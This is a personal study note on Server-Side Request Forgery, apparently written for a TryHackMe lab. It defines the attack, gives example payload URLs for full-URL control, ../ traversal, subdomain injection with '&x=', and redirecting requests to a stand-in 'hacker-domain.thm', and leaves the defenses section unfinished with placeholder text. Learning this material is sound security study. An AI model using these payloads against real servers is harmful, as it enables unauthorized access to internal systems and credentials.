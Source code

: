### Table of contents
- [[#Intro]]
- [[#Methods]]
- [[#Finding an SSRF]]
- [[#Common Defenses]]

___
### Intro
[[#Table of contents|Back to the top]]

**Server-Side Request Forgery**: attacker causes webserver to make additional/edited **HTTP request** to resource chosen by attacker
- **Regular**: data returned to attacker's screen
- **Blind**: no info returned to attacker

$\rightarrow$ Access unauthorized areas
$\rightarrow$ Access customer/organizational data
$\rightarrow$ Scale to internal networks
$\rightarrow$ Reveal authentication tokens/credentials

___
### Methods
[[#Table of contents|Back to the top]]

1. **Complete control** over page requested by server
	- Expected request:
	`http://website.thm/stock?url=http://api.website.thm/api/stock/stock/item?id=123`
	- Target: `http://api.website.thm/api/user`
	- Payload:
	`http://website.thm/stock?url=`**`http://api.website.thm/api/user`**

2. **`../`**: directory traversal
	- Expected request:
	`http://website.thm/stock?url=/item?id=123`
	- Target: `http://website.thm/user`
	- Payload:
	`http://website.thm/stock?url=`**`/../user`**

3. Control of server's **subdomain**
	- Expected request:
	`http://website.thm/stock?server=api&id=123`
	- Target: `http://api.website.thm/api/user`
	- Payload:
	`http://website.thm/stock?server=`**`api.website.thm/api/user&x=&id=123`**

	NB: **`&x=`** stops remaining path from being appended to the end of attacker's URL, instead turns it into parameter

4. Force server to request **server chosen by attacker**
	- Expected request:
	`http://website.thm/stock?url=http://api.website.thm/api/stock/item?id=123`
	- Goal: legitimate domain makes request to hacker domain
	- Payload:
	`http://website.thm/stock?url=`**`http://hacker-domain.thm/`**

___
### Finding an SSRF
[[#Table of contents|Back to the top]]

- Full URL used as parameter in address bar
![[Pasted image 20250425101442.png]]

- Hidden field in a form
![[Pasted image 20250425101447.png]]

- Partial URL such as hostname
![[Pasted image 20250425101513.png]]

- URL path
![[Pasted image 20250425101533.png]]

___
### Common Defenses
[[#Table of contents|Back to the top]]

#### Deny List
aa
#### Allow List
za
#### Open Redirect
aa

